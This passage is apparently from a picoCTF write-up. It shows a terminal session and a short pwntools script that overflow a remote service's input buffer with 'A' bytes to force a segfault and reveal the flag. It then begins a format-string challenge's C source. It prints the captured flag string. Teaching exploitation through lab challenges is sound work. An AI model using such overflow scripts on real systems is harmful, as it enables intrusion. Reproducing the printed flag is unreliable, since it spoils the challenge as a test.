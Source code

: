 ```C
        fflush(stdout);
    }
}
```

This challenge is pretty easy. We can see that there is a custom function that is called whenever a `SIGSEGV` is thrown. All we have to do is cause a segfault:
```bash
┌──(jakemull㉿leman-russ)-[~/ctf/pico]
└─$ nc mimas.picoctf.net 65265
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
We are able to cause the segfault because there is no error handling or input validation, allowing us to dump garbage into the stack until the program pops the garbage into `rip` register, sending a `SIGSEGV`.

Here's a very simple `pwntools` python script to do this programmatically
```python
from pwn import *
import sys
  
conn = remote(sys.argv[1], sys.argv[2])
conn.recvuntil(b': ')
  
conn.sendline(b'A' * 128)
  
resp = conn.recvuntil(b'}')
print(resp.decode())
```

# Format String 1
We're provided with a similar setup to the last challenge, an open port running a C binary with the following source code:
```C
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];
  
  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
```